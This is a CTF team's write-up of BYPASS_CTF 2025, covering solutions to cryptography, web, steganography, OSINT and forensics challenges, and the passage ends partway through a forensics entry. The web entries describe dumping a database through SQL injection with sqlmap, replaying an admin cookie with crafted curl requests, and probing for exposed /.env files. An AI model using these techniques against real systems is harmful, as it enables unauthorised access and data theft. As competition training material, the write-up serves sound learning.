

# BYPASS_CTF 2025 - DΣDSEC

*Written by Eth3real & Phantom0*
We secured **20th place**, successfully submitting **41 flags** during the competition.

## Chaotic Trust

- **Category:** Cryptography
- **Points:** 250

---

## Description

> Chaos was used to generate a keystream for encrypting the flag using XOR.
A partial keystream leak was left behind during debugging.
> 
> 
> Chaos on computers isn’t always unpredictable.
> Can you exploit floating-point precision and recover the flag?
> 

---

## Goal

Recover the initial seed used in the logistic map generator to recreate the keystream and decrypt the flag.
**Flag Format:** `BYPASS_CTF{...}`

---

## Solution

1. **Analyze the Leak:** The "leak" provided is just the upper half of the floating-point numbers generated by the system. This tells us the approximate value of the number at each step.
2. **Brute-force & Filter:** I wrote a script to generate millions of possible numbers for the first step. The script runs them through the chaos formula and deletes any that don't match the rest of the leak.
3. **Recover Seed:** After filtering, only one valid path remained. I calculated the starting seed (0.123456) from that path and used it to generate the full key and decrypt the flag.

### Solver Script

```python
import struct
import numpy as np

# Data
cipher_hex = "9f672a7efb6ec57d0379727c360bc968c07e8b6a256acc0a850f4c608b6a9e0b5472f11f0d"
leak_hex   = "dd3e7a3fa83d9a3e573f093f7e3ff93c"

def logistic_map(x, r=3.99):
    return r * x * (1 - x)

def get_bounds(b2, b3):
    # Convert top 2 bytes to float range
    prefix = (b3 << 24) | (b2 << 16)
    f_min = struct.unpack('f', struct.pack('I', prefix))[0]
    f_max = struct.unpack('f', struct.pack('I', prefix | 0xFFFF))[0]
    if f_min > f_max: f_min, f_max = f_max, f_min
    return f_min - 1e-6, f_max + 1e-6

# 1. Recover x1 from leak
leak_bytes = bytes.fromhex(leak_hex)
bounds = [get_bounds(leak_bytes[i], leak_bytes[i+1]) for i in range(0, len(leak_bytes), 2)]

# Search range based on first byte of leak
candidates = np.linspace(bounds[0][0], bounds[0][1], 10_000_000, dtype=np.float64)
survivors = candidates

for step, (low, high) in enumerate(bounds):
    mask = (candidates >= low) & (candidates <= high)
    candidates = candidates[mask]
    survivors = survivors[mask]
    if step < len(bounds) - 1:
        candidates = logistic_map(candidates)

x1_approx = survivors.mean()

# 2. Solve for Seed (x0)
# x1 = r * x0 * (1 - x0) -> Quadratic Formula
r = 3.99
delta = np.sqrt(r**2 - 4*r*x1_approx)
x0 = (r - delta) / (2*r)

# Round to likely simple seed
seed = round(x0, 6) # Result: 0.123456
print(f"Recovered Seed: {seed}")

# 3. Decrypt
def generate_keystream(seed, length):
    x = seed
    stream = b""
    while len(stream) < length:
        x = logistic_map(x)
        stream += struct.pack("f", x)[-2:]
    return stream[:length]

cipher = bytes.fromhex(cipher_hex)
keystream = generate_keystream(seed, len(cipher))
flag = bytes([c ^ k for c, k in zip(cipher, keystream)])
print("Flag:", flag.decode())

```

---

## Tools

- Python 3 (NumPy)

---

## Flag

```
BYPASS_CTF{CH40T1C_TRU57_15_4W350M3!}
```

---

## **Once More Unto the Same Wind**

- **Category:** Cryptography
- **Points: 200**

---

## Description

> The crew of the Black Horizon believed their cipher unbreakable.
> 
> 
> Captain Blackwind swore by the Galois Seal — *“no blade can cut it, no storm can bend it.”*
> 
> Yet in his haste, the navigator trusted the **same wind** to carry more than one message.
> 

---

## Goal

Exploit the Reuse of Nonce 

---

## Solution

1. we knew the known plaintext used for XORing was “A”

2. Means to get the flag we simply need to do FLAG= CIPHER 1 (XOR) CIPHER2 (XOR) KNOWN PLAINTEXT



---

## Tools

- CyberChef

---

## Flag

```
BYPASS_CTF{rum_is_better_than_cipher}
```

---

## **The Key Was Never Text**

- **Category:** Cryptography
- **Points:** 250

---

## Description

> He never trusted digital things.
His favorite key was something with hands but no voice.
> 
> 
> “The face tells you everything if you know how to read it.”
> 
> You recovered this message:
> 
> 18 5 25 11 10 1 22 9 11 9 3 5 12 1 14 4
> 
> Flag Format- BYPASS_CTF{ANSWER_IN_UPPERCASE_NO_SPACES}
> 

---

## Goal

Decode the Message

---

## Solution

1. Simply past the Message string into CyberChef and it automatically detects A1Z26 Cipher


---

## Tools

- CyberChef

---

## Flag

```
BYPASS_CTF{REYKJAVIKICELAND}
```

---

## **🏴‍☠️ Whispers of the Cursed Scroll**

- **Category:** Cryptography
- **Points:** 200

---

## Description

> An old pirate scroll has resurfaced from the depths of the sea.
> 
> 
> It looks ordinary… maybe even some code.
> 
> But sailors who dismissed it were never seen again.
> 
> Legends say the message was hidden *not in what is written,*
> 
> The sea doesn’t shout its secrets.
> 
> Only those who read *between* the lines survive. ☠️⚓
> 
> Don't trust me I am Lier...
> 

---

## Goal

Decode this whitespace programming language

---

## Solution

1.Used a whitespace online decoder


---

## Tools

- [https://naokikp.github.io/wsi/whitespace.html](https://naokikp.github.io/wsi/whitespace.html)

---

## Flag

```
BYPASS_CTF{Wh1tsp4c3_cut13_1t_w4s}
```

---

## **Count the Steps, Not the Stars**

- **Category:** Cryptography
- **Points:** 100

---

## Description

> “When the map looks wrong, try to think like mathematician…
> 
> 
> and let each step grow better than last.”
> 

---

## Goal

Decrypt the given list of large integers to retrieve the CTF flag.

---

## Solution

The encryption treats the squared ASCII value of each character as a variable in a linear equation, which we solved by comparing the first two encrypted numbers with the known characters 'B' and 'Y'.
Using the calculated slope and offset, we mathematically reversed the operation for the rest of the list to decrypt the hidden text.

solver script 

```bash
import math

ciphertext = [3827591716288630776540535668038365628871133898264070018792556815246012718335698404146173574751497387952867457629767297216012860845869627771721518203820241154212224, 6960136184559430601681076640675186981775522614425463143207438380941559783783716813850739989978132330480107310443927842355512366409900326676275298793621864033812864, 5623642457703922457490680337903628699091770794711163299663249078999644752494393952375103098657035066080687446171743217065981160810211492725692886373681255787004288, 3712482789123560712839719155439368827403960007151267073687830451962389530236486507464182494696886117975008153080354946188446399351090379088272276897434823875887488, 6053323872846817580770827472719731263347099289017733071848067335836986271429620039989558351685316829585826376894358786932240700283089756895209519952478729444262272, 6053323872846817580770827472719731263347099289017733071848067335836986271429620039989558351685316829585826376894358786932240700283089756895209519952478729444262272, 7930214471507807321724599006394976820094301055559313917219788801285987262116006385888283137919283796553059006799280785366454148778116285046717759879495914990076288, 3944458031654694276328387547241927267001928764813709650082088161175187405489860100777508030074117990296800950034895867343236825569576803915986778461448183887167872, 6200065787629769494038280584200895124759450737993596368279283386740536442517928335759730186564096082153021062846663081753642219898571699873347102381229604905943424, 4305601306958845392214155384480001201376039217083648661059512094836020461282043990367571647650035791525046554384578892322853739114265897113678672941787164813820288, 13293763260939774259356537883526858317465518088784880153244595835509162377822795831284264455883766177811480342445181477521154003466150895457207599071683602523619712, 11022339011155758116863326547126806929735407336673463259384155766133849849300179396757951921981704094660592538931968291213831080076804652352503104590719452413165952, 8963558733691947740901394569879100778303434612419285393885118596870268706426488756102187795508771227804681465960417615965066047387737632006536903210100882313052544, 8267633006098547050435389394471425459509528339431957664702345469231875080666367976162211189377075610839303075096794852500694768732278357523393398518060802279211392, 11419508744580274672533319399758460015713747785398554337150081844028488635718834185309554732551813209393358994323833807736426809814516258496923387571530205159752064, 10249088202718646238567765241118278797742178144465321338069963402091190265122267419046866804057597853587949882416831887364529659348516569593454766044008252375564672, 7930214471507807321724599006394976820094301055559313917219788801285987262116006385888283137919283796553059006799280785366454148778116285046717759879495914990076288, 10632198830535215305541475160913413190411550789695718926357449618821417059101323808003722612483632309392122834962967651089865363254804756051346897414878801485103488, 8267633006098547050435389394471425459509528339431957664702345469231875080666367976162211189377075610839303075096794852500694768732278357523393398518060802279211392, 12234936869841229016917729504276544227633880388090776726899593791564384197215541361804880856908143427251782159376159469977508308037074600315556180948062016108495232, 9687602672501243408759965610959813483715276492396000102024771446837486317065806335231658405928616162627246862515499885023957377706043745862736711122021369620988288, 9322065926694608702656609357210327457682113601533969375585335056562774513636247945768236350182675030483815788526526312295196706089034834013004769263576075057758592, 8267633006098547050435389394471425459509528339431957664702345469231875080666367976162211189377075610839303075096794852500694768732278357523393398518060802279211392, 11823708030808764972551453718808372448346572135870992159655227852505333418357288173658531044193959653590422201138564200657652552467939574484607746357311059724861824, 8963558733691947740901394569879100778303434612419285393885118596870268706426488756102187795508771227804681465960417615965066047387737632006536903210100882313052544, 8786941219492107414154340226120334693609526581017198432312217840992343051404033861193178581073833325014225586460937596449486972880480922194526998610227074122645888, 7930214471507807321724599006394976820094301055559313917219788801285987262116006385888283137919283796553059006799280785366454148778116285046717759879495914990076288, 11823708030808764972551453718808372448346572135870992159655227852505333418357288173658531044193959653590422201138564200657652552467939574484607746357311059724861824, 9503955605497429337664769800782788052366884559246566395712650760377354665823552240525275690421640930372494231593154989109748290283075326207462730717177459612057984, 11419508744580274672533319399758460015713747785398554337150081844028488635718834185309554732551813209393358994323833807736426809814516258496923387571530205159752064, 10826390226744989993158883170717827641741668575466172749778400201154857704673276702406165579598663535843320593019609861602019470051340740471516991527177864221819264, 12028443756224500276691073928240175919658415774262466100185008330712083058258939867757034262917046874238065086329503725767751678638043123669673954177065275189363072, 9322065926694608702656609357210327457682113601533969375585335056562774513636247945768236350182675030483815788526526312295196706089034834013004769263576075057758592, 9503955605497429337664769800782788052366884559246566395712650760377354665823552240525275690421640930372494231593154989109748290283075326207462730717177459612057984, 7930214471507807321724599006394976820094301055559313917219788801285987262116006385888283137919283796553059006799280785366454148778116285046717759879495914990076288, 8786941219492107414154340226120334693609526581017198432312217840992343051404033861193178581073833325014225586460937596449486972880480922194526998610227074122645888, 8267633006098547050435389394471425459509528339431957664702345469231875080666367976162211189377075610839303075096794852500694768732278357523393398518060802279211392, 11419508744580274672533319399758460015713747785398554337150081844028488635718834185309554732551813209393358994323833807736426809814516258496923387571530205159752064, 10060168971111851859211463331127558856402923285005377573203427767694404116715163924492453962746594624234974687927338334151348062238764367555732728785436766002741632, 7930214471507807321724599006394976820094301055559313917219788801285987262116006385888283137919283796553059006799280785366454148778116285046717759879495914990076288, 12443187371658951193231420446917477372272965977355924039798984235062236835227092655802070826167249312631573420278531433286922440665034004422254426670301282482258304, 8267633006098547050435389394471425459509528339431957664702345469231875080666367976162211189377075610839303075096794852500694768732278357523393398518060802279211392, 11823708030808764972551453718808372448346572135870992159655227852505333418357288173658531044193959653590422201138564200657652552467939574484607746357311059724861824, 8963558733691947740901394569879100778303434612419285393885118596870268706426488756102187795508771227804681465960417615965066047387737632006536903210100882313052544, 11419508744580274672533319399758460015713747785398554337150081844028488635718834185309554732551813209393358994323833807736426809814516258496923387571530205159752064, 11620729693594023104498868875981133813698349472916354905310252356944135277510586279509371200738881765308853503803340894647210929526763952760357557488799369714991488, 7930214471507807321724599006394976820094301055559313917219788801285987262116006385888283137919283796553059006799280785366454148778116285046717759879495914990076288, 2375989062268052568649322852667810544720208187436967230143641150020474498947163645988545603375788853575588288808170320898915193751401545137689864477494215629078912, 9141933636092781503735484280242431699660963619258209041642824335393745860503893450960540385211718462961211533315613854580302625123922269279362826761217215958090112, 2854877347038763902366460252411728535556923993974964215502998920933257991420984132184615363908331923330804479490840025555584823634261778210055028691082402016002432, 2196735465766722087771715459002197205030868692879625239293532920174221595342284051155521326038836952236021127525115972733849864400752944134455931450756619256725888, 8438978355695407068921337638416497034212573444523534567720831277173146238523973471223190278007985516531536391029126214717301333552751284952955246264207034105725312, 13729595534786146408941308801458937810043519997120378327076231531605934143450346218721421522350080604597878930662803814236214804240276905739580298979829915272085888]

n = [16, 32, 96, 384]

def decrypt_val(val):
    for s in reversed(n):
        val = val >> s
    return math.isqrt(val)

flag = "".join(chr(decrypt_val(v)) for v in ciphertext)
print(flag)
```

---

## Tools

- Math library of python

---

## Flag

```
BYPASS_CTF{pearl_navigated_through_dark_waters_4f92b}
```

---

## **Pirate's Hidden Cove**

- **Category:** web
- **Points:** 200

---

## Description

> You've discovered a secret pirate cove, hidden deep within the Tor network — a place where digital buccaneers stash their treasures. Somewhere on these sites lies the captain's flag. Can you find the 📄.
> 

---

## Goal

Find the Hidden directory

---

## Solution

1. Tried Few common directories and found the flag in /.env

CTF=BYPASS_CTF{T0r_r0ut314}

---

## Tools

- -

---

## Flag

```
BYPASS_CTF{T0r_r0ut314}
```

---

## **Pirate's Treasure Hunt**

- **Category:** web
- **Points:** 150

---

## Description

> Set sail on an adventure through the treacherous seas of mathematics! Navigate through 20 nautical challenges, each more perilous than the last. Solve riddles of arithmetic under time pressure as the Kraken closes in. Only those who master the pirate code of division, multiplication, and conquest can claim the legendary pirate's map.
> 

---

## Goal

Figure out how to solve questions fast

---

## Solution

1. Hmm.. we cannot Inspect or view source code 

2. so I intercepted the traffic to understand the working, seems like only way is to automate the solving

### Solver Script

```bash
import requests
import time
import json

# Configuration based on your logs
BASE_URL = "http://20.196.136.66:3600"
HEADERS = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36",
    "Content-Type": "application/json"
}

def solve_challenge():
    session = requests.Session()
    
    print(f"[*] Connecting to {BASE_URL}...")
    
    # 1. Start the game
    try:
        start_resp = session.post(f"{BASE_URL}/api/game/start", headers=HEADERS)
        start_data = start_resp.json()
    except Exception as e:
        print(f"[!] Failed to start game: {e}")
        return

    if not start_data.get("success"):
        print("[!] Server returned success: false on start")
        return

    session_id = start_data['sessionId']
    current_question = start_data['question']
    
    print(f"[+] Game started! Session ID: {session_id}")

    # 2. Loop through questions
    while True:
        # Extract details
        q_num = current_question['number']
        expression = current_question['expression']
        
        # Calculate answer (Python's eval is safe enough for simple CTF math)
        # The expression comes as a string like "8 + 12"
        try:
            # We strip any weird whitespace just in case
            answer_val = eval(expression)
        except Exception as e:
            print(f"[!] Error evaluating expression '{expression}': {e}")
            return

        print(f"[*] Question {q_num}: {expression} = {answer_val}")

        # CRITICAL: Bypass the rate limit check
        # The JS code says: if (timeSinceQuestion < 800) { error }
        # We wait 1 second to be safe.
        time.sleep(1.0)

        # Prepare payload
        payload = {
            "sessionId": session_id,
            "answer": answer_val
        }

        # Submit answer
        try:
            ans_resp = session.post(
                f"{BASE_URL}/api/game/answer", 
                json=payload, 
                headers=HEADERS
            )
            ans_data = ans_resp.json()
        except Exception as e:
            print(f"[!] Network error sending answer: {e}")
            return

        # Check result
        if not ans_data.get("success"):
            print("[!] Server returned error on answer.")
            print(ans_data)
            return
            
        if not ans_data.get("isCorrect"):
            print("[!] Wrong answer submitted! The Kraken got us.")
            return

        # Check if game is over
        if ans_data.get("gameCompleted"):
            print("\n" + "="*40)
            print(f"[*] FINAL SCORE: {ans_data.get('finalScore')}")
            print(f"[+] FLAG: {ans_data.get('flag')}")
            print("="*40 + "\n")
            break
        
        # Prepare for next loop
        current_question = ans_data['nextQuestion']

if __name__ == "__main__":
    solve_challenge()
```

---

## Tools

- -

---

## Flag

```
BYPASS_CTF{d1v1d3_n_c0nqu3r_l1k3_4_p1r4t3}
```

---

## **The Lost Log Book**

- **Category:** web
- **Points:** 250

---

## Description

> Sail into unsafe waters where faulty authentication and obscured routes guard valuable secrets. There’s more than meets the eye in this pirate portal — hidden methods await those bold enough to look past the browser’s limits.
> 
> 
> Flag Format:- BYPASS_CTF{.......}
> 

---

## Goal

Breakthrough the login page → then find the correct request method to get the flag

---

## Solution

1.Login page was vulnerable as it should database error on `‘` so I used sqlmap and dumped the crew table 

2.Found the admin creds logged in and when visited /admin page we find out in response that we need X-Pirate header

```bash
┌──(Eth3real㉿DΣDSEC)-[~/Downloads]
└─$ curl -X GET http://20.196.136.66:18008/admin/treasure-map \
     -H "Cookie: role=s%3Aadmin.PsHWGk4Tw8e6jood1XWJfDfAeoEPjDDUXZ072vvz7zk" \
     -H "X-Pirate: true"
{"error":"Access Denied","comment":"Who are u?"}                                                                                                                                                                                                   
┌──(Eth3real㉿DΣDSEC)-[~/Downloads]
└─$ curl -X GET http://20.196.136.66:18008/admin/treasure-map \
     -H "Cookie: role=s%3Aadmin.PsHWGk4Tw8e6jood1XWJfDfAeoEPjDDUXZ072vvz7zk" \
     -H "X-Pirate: jack"
{"error":"Access Denied","comment":"Who are u?"}                                                                                                                                                                                                   
┌──(Eth3real㉿DΣDSEC)-[~/Downloads]
└─$ curl -X GET http://20.196.136.66:18008/admin/treasure-map \
     -H "Cookie: role=s%3Aadmin.PsHWGk4Tw8e6jood1XWJfDfAeoEPjDDUXZ072vvz7zk" \
     -H "X-Pirate: Jack"
{"map":"VHJhY2UgbG9nYm9vaw=="}
```

3.Decoded : Trace logbook , ohh so we need to used the “Trace” request method on /logbook

```bash
curl -X TRACE "http://20.196.136.66:18008/logbook" \ 
  -H "Cookie: role=s%3Aadmin.PsHWGk4Tw8e6jood1XWJfDfAeoEPjDDUXZ072vvz7zk" \
  -H "X-Pirate: Jack"
{"message":"Captain's entry","flag":"BYPASS_CTF{D0nt_trust_a11}"} 
```

---

## Tools

- sqlmap , curl , burpsuite

---

## Flag

```
BYPASS_CTF{D0nt_trust_a11}
```

---

## **A Tressure That Doesn’t Exist**

- **Category:** web
- **Points:** 350

---

## Description

> The page insists it's not here — a digital dead end. Yet, something about this absence feels… intentional.
> 
> 
> Pages may lie, but the browser doesn’t.
> 

---

## Goal

To get the flag from the browser 

---

## Solution

1. First visited the webpage and found 404 notfound error 
2. looked at the page source and nothing there 
3. read a bunch of vercel not found error but no luck there also 
4. then finally started to look for common endpoints like /.git, /.env,  /rockyou.txt 
5. then finally got favicon.ico and there was Captain Jack Sparrow 
6. used curl to download the image 


---

## Tools

- browser
- curl

---

## Flag

```
strings favicon.ico
yq[+
flag.txtUT	
BYPASS_CTF{404_Err0r_N0t_F0und_v}
yq[+
flag.txtUT
```

---

## **Piano**

- **Category:** Steganography
- **Points:** 250

---

## Description

> "They said the melody was cursed... a tune played by a mad pirate who hid his treasure in sound itself."
> 
> 
> Listen close, sailor. The chords you hear aren’t random — they spell the name of his lost ship.
> 
> Find the word, claim the flag, and pray Davy Jones doesn’t find you first.
> 
> Flag Format:- BYPASS_CTF{...}
> 

---

## Goal

Decode the hidden message in Audio file

---

## Solution

1.After listening to the audio , I immediately thought it might have something to do with pitch

2. so I searched for online pitch decoder when hovered over the notes we can see a word formed 
”BADFACE”


---

## Tools

- [https://singingcarrots.com/analyser/temp](https://singingcarrots.com/analyser/temp)

---

## Flag

```
BYPASS_CTF{BADFACE}
```

---

## **Jigsaw Puzzle**

- **Category:** Steganography
- **Points:** 250

---

## Description

> Challenge Title: The Captain's Scattered Orders
> 
> 
> A rival pirate ransacked Captain Jack Sparrow's cabin and, in a fit of rage, tore his portrait to shreds. But this was no ordinary portrait. The Captain, in his infinite cunning, had scrawled his latest secret orders across the back of it before it was framed.
> 
> The 25 pieces were scattered across the deck. If you can piece the Captain's portrait back together, you might just be able to read his hidden message.
> 
> Find the pieces in this directory, reassemble the image, and decipher the orders. Good luck, savvy?
> 

---

## Goal

Reassemble the image and decode the flag 

---

## Solution

1. I used canva whiteboard to Reassemble the image and then we can see that each piece of image has part of flag 
2. Read All the letters “row wise” and string formed : GurcnffjbeqVf:OLCNFF_PGS{RVTUG_CVRPRF_BS_RVTUG}


---

## Tools

- canva
- CyberChef

---

## Flag

```
ThepasswordIs:BYPASS_CTF{EIGHT_PIECES_OF_EIGHT}
```

---

## **Gold Challenge**

- **Category:** Steganography
- **Points:** 300

---

## Description

> The challenge is contained within the Medallion_of_Cortez.bmp file.
> 
> 
> This cursed coin holds more than just gold.
> 
> They say the greed of those who plundered it left a stain upon its very soul—a fractured image, visible only to those who can peel back the layers of light.
> 
> To lift the curse, you must first reassemble the key. Once the key is whole, its message will grant you the power to unlock the true treasure within.
> 
> Beware, for the final step is guarded, and only the words revealed by the light will let you pass.
> 

---

## Goal

---

## Solution

1. It was a simple challenge as it is a stego chall I started with stegsolve tool and found the QR in red plane of the image 
2. Scanned the QR got a string "SunlightRevealsAll" used this as a password to extract the file using steghide and got the flag


---

## Tools

- stegsolve , steghide

---

## Flag

```
BYPASS_CTF{Aztec_Gold_Curse_Lifted}
```

---

## **The Locker of Lost Souls**

- **Category:** Steganography
- **Points:** 300

---

## Description

> They say that to be locked away in Davy Jones' Locker is to be erased from the world of the living, a fate worse than death. One of our divers recovered this image from the wreck of the *Sea Serpent*. The ship's log spoke of a curse, a vision that could only be understood by those who could 'see beyond the veil'. The image seems to be just a picture of an old locker on the seabed, covered in barnacles, but the log claims it holds the key to escape the Locker itself. Standard instruments find nothing. Maybe the old captain was just mad from the pressure, or maybe... you're just not looking at it the right way.
> 

---

## Goal

Find the Flag in Image

---

## Solution

1. seems like stereogram so for that we know magic eye tool 


---

## Tools

- [https://magiceye.ecksdee.co.uk/](https://magiceye.ecksdee.co.uk/)

---

## Flag

```
BYPASS_CTF{D34D_M4N5_CH35T}
```

---

## **Record**

- **Category:** OSINT
- **Points:** 300

---

## Description

> An event without a name is a ghost.
> 
> 
> Bind this account to its rightful record, and in doing so, expose both the number it bears and the waters it disturbed.
> 
> Flag Format:- BYPASS_CTF{portCity_capitalCity_incidentNumber}
> 

---

## Goal

Find the Incident

---

## Solution

1. using online morse code decoded I found this string :
”CREW ONBOARD AN ANCHORED TANKER NOTICED TWO UNAUTHORISED PERSONS NEAR THE DECK STORE. MASTER INFORMED GENERAL ALARM RAISED PA ANNOUNCEMENT MADE CREW MUSTERED. SEEING THE CREW"S ALERTNESS, THE INTRUDERS ESCAPED WITH SHIP'S STORES. INCIDENT REPORTED TO VTS, WHO DISPATCHED A PATROL BOAT. YOUR TASK IS TO USE THE DESCRIPTION TO LOCATE THE OFFICIAL INCIDENT NUMBER AND THE LOCATION OF THE INCIDENT+”
2. google search about this lead me found the Golden Curl Incident : [https://www.recaap.org/resources/ck/files/Number of Incidents/2025/List of Incidents for 2025 (caa 18 Dec 2025).pdf](https://www.recaap.org/resources/ck/files/Number%20of%20Incidents/2025/List%20of%20Incidents%20for%202025%20(caa%2018%20Dec%202025).pdf)


1. So the portcity is Belawan and searching about its captial city found Medan
2. now for incident number I used site [https://icc-ccs.org/map/](https://icc-ccs.org/map/)


---

## Tools

- Google dorking

---

## Flag

```
BYPASS_CTF{Belawan_Medan_011-25}
```

---

## **Address Unknown**

- **Category:** OSINT
- **Points:** 200

---

## Description

> A mysterious cybersecurity blogger has been publishing sensitive reports through the website:decentsecurity.com
Trace the registration trail and find the street tied to it.
> 
> 
> BYPASS_CTF{STREET_NAME_WITHOUT_SPACES}
> 

---

## Goal

---

## Solution

1. lets lookup for whois history 


---

## Tools

- [https://osint.sh/whoishistory/](https://osint.sh/whoishistory/)

---

## Flag

```
BYPASS_CTF{Kalkofnsvegur2}
```

---

## **Jellies**

- **Category: OSINT**
- **Points: 350**

---

## Description

> 
> 
> 
> A strange image has been recovered from an oceanic research buoy after it briefly connected to an unknown network.
> No metadata survived — only a single frame showing ethereal, floating creatures suspended in blue water.
> 
> But something isn’t right.
> The currents in the background flow too smoothly.
> The illumination is too perfect.
> And deep within the fluid shadows, a faint pattern seems to flicker… almost as if the ocean itself is whispering coordinates.
> 
> They also suspect there is a hidden pattern hiding in the undulating shapes of the drifting creatures.
> Find out the species of image and the secret code hidden
> 
> Flag Format;- BYPASS_CTF{species_code}
> 

---

## Goal

Find out the species of image and the secret code hidden

---

## Solution

downloaded the image and ran zsteg on it and found the code 

`zsteg 03_jellies.png` 


on doing a reverse image search on the image and looking for several hours found a website with the camera feed 


`url :[https://www.geocam.ru/online/seajelly-cam/](https://www.geocam.ru/online/seajelly-cam/)`

from the name of the feed we can see the species name hence the flag 

BYPASS_CTF{Sea_Nettles_this_is_a_jelly_H01&01$} (the case sensitive part gave me nightmares in OSINT challenges)

---

## Tools

- zsteg
- google search

---

## Flag

```
BYPASS_CTF{Sea_Nettles_this_is_a_jelly_H01&01$}
```

---

## **Hidden Hunter**

- **Category:** OSINT
- **Points:** 300

---

## Description

> During an inspection of a colonial-era ship registry, investigators found one suspicious entry.
The individual listed does not appear in any official naval records, yet his description matches that of a notorious pirate long rumored to sail the seas under an assumed identity, .
> 
> 
> You have recovered the following excerpt from the ship’s manifest:
> 
> Rig: Ship
> Age: 47
> Skin: Dark
> Hair: Brown
> Year: 1800's
> 
> Flag format: BYPASS_CTF{Real_Name}
> 

---

## Goal

Find the Person Name

---

## Solution

1. I solved this challenge completely using AI , I gave all the details and it gave me the name josiah sparrow so i tried this as a flag and it worked 

---

## Tools

- AI

---

## Flag

```
BYPASS_CTF{Josiah_Sparrow}
```

---

## **Pelagic Node-14**

- **Category: OSINT**
- **Points: 300**

---

## Description

> A submerged visual relay—designated Pelagic Node-14—has been continuously transmitting a live feed from an uncharted mid-ocean depth.
The camera is fixed, silent, pressure-worn, and linked to a small YouTube livestream that rarely registers more than a handful of viewers.
No logs accompany it.
No metadata survives the stream.
Only a single captured frame has been archived for assessment.
> 
> 
> The frame contains nothing unusual at first glance—only drifting particulates and the muted gradients of deep water.
> Yet the relay itself operates under an internal classification, a descriptor assigned long before the livestream was ever configured, and long after its manufacturer vanished from public record.
> 
> Your objective is simply to determine the descriptor traditionally used for this class of deep-water relay.
> 
> Flag format - BYPASS_CTF{city_state_country}
> 

---

## Goal

objective is simply to determine the descriptor traditionally used for this class of deep-water relay.

---

## Solution

On hunting the oceans of google found a web cam which was showing the aquarium 


`url : [https://www.onecooltip.com/2024/07/dive-into-deep-aquarium-of-pacific.html](https://www.onecooltip.com/2024/07/dive-into-deep-aquarium-of-pacific.html)`

From here it was simple found out where this aquarium was the difficult part was to get the case sensitive part right 

so the city : Long Beach

state : California 

countary : USA 

put them all togather 

BYPASS_CTF{Long_Beach_California**_**USA} but this was wrong 

the coorect flag was `BYPASS_CTF{Long_Beach_California_Usa}`

---

## Tools

- Google

---

## Flag

```
BYPASS_CTF{Long_Beach_California_Usa}
```

---

## **Study Partner**

- **Category: OSINT**
- **Points: 50**

---

## Description

> We call them Study Partner
> 
> 
> Flag Format:- BYPASS_CTF{Studypartner}
> 

---

## Goal

get the Study Partner

---

## Solution


---

## Tools

- Instagram

---

## Flag

```
BYPASS_CTF{hackviser}
```

---

## **Certificate Partner**

- **Category: OSINT**
- **Points: 50**

---

## Description

> They are sponsoring certificate.
> 
> 
> Flag Format:- BYPASS_CTF{Certificate_Partner}
> 

---

## Goal

Certificate_Partner 

---

## Solution


---

## Tools

- Instagram

---

## Flag

```
BYPASS_CTF{Altered_Security}
```

---

## **Snack Sp**

- **Category: OSINT**
- **Points: 50**

---

## Description

> Snack Sponsor they are 😊😊 Qualified Teams will get Snacks Its only 2 words you need Flag Format:- BYPASS_CTF{Snack_Sponsor}
> 

---

## Goal

To get the Snack Sponsor

---

## Solution


---

## Tools

- Instagram

---

## Flag

```
BYPASS_CTF{Bushani_Bros}
```

---

## **Platform Sp 2**

- **Category: OSINT**
- **Points: 50**

---

## Description

> They Too are our PlatForm Sponsor😊😊
> 
> 
> Flag Format BYPASS_CTF{...}
> 
> True
> 

---

## Goal

PlatForm at which we were playing ctf 

---

## Solution


---

## Tools

- Instagram

---

## Flag

```
BYPASS_CTF{ctf7} (dont remeber if was caps or not)
```

---

## **Platform Sp 1**

- **Category: OSINT**
- **Points: 50**

---

## Description

> Platform sponsor they are 😊😊
> 
> 
> Flag Format:- BYPASS_CTF{...}
> 

---

## Goal

Platform SP 1

---

## Solution


---

## Tools

- Instagram

---

## Flag

```
BYPASS_CTF{Unstop}
```

---

## **The Captain’s Session**

- **Category:** Forensics
- **Points:** 350

---

## Description

> The Captain left no open tabs and no saved files.
> 
> 
> What remains is scattered within the browser itself.
> 
> Track down the remnants and reveal what was hidden.
> 

---

## Goal

Need to find all the flag parts 

---

## Solution

1. The first question from the challenge script is: **"What is the url of the bookmarked website?"**
2. Received Flag part : BYPASS_CTF{My_d0g
3. The second question is: **"What is the password?"**
4. Received Flag Part 2 **:** _0st3pp3d_0n_ with hint to check history 
5. found third part 4_b33_shh}

```bash
cat Bookmarks
"children": [ {
   "date_added": "13411216165785341",
   "name": "ISDF-AIT",
   "type": "url",
   "url": "https://isdf.dev/"
} ]
```

```bash
strings "Login Data"
https://guess.not.work/answer2
password_notes
logins
...
notestepped_on
```

```bash
strings "Sessions/Session_13411217125335850"
https://www.google.com
https://isdf.dev
P3: 4_b33_shh} - Pastebin.com
```

---

## Tools

- strings

---

## Flag

```
BYPASS_CTF{My_d0g_0st3pp3d_0n_4_b33_shh}
```

---

## **Dead Men Speak NO Plaintext**

- **Category: Forensics**
- **Points: 250**

---

## Description

> A network capture was recovered from a ship sailing suspicious waters of the Caribbean.
> 
> 
